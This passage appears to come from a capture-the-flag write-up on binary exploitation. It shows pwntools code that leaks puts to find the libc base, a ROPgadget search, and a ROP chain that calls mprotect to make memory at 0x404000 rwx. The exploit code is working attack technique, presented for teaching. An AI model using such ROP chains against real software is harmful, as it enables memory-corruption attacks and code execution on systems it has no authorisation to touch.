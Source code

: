 ![leak-libc-and-jump-back-to-vuln.png](images/leak-libc-and-jump-back-to-vuln.png)

So we will get that address and find the libc base address with this code:

```python
puts_addr = u64(p.recvline()[:-1] + b'\x00\x00')
print(hex(puts_addr))
libc.address = puts_addr - libc.sym['puts']
print(hex(libc.address))
```

Now, with address libc in hand, we can call the function mprotect() to change the permission to rwx. We will need several gadget to modify rdi, rsi and rdx:

```bash
ROPgadget --binary libc-2.33.so | grep ": pop rdx"
...
0x00000000000c7f32 : pop rdx ; ret
...
```

So with the same offset of padding, we can change the permission of address `0x404000` with this code:

```python
pop_rdx = libc.address + 0x00000000000c7f32
payload = b'A'*24
payload += flat(
	pop_rdi, 0x00000000404000,    # Address to change
	pop_rsi_r15, 0x1000, 0,       # Length of address
	pop_rdx, 7,                   # Permission want to set, 7 is rwx
	libc.sym['mprotect'],
)
p.sendlineafter(b'stuff:', payload)
```

Execute script and attach with gdb, we can check if the address is changed its permission or not:

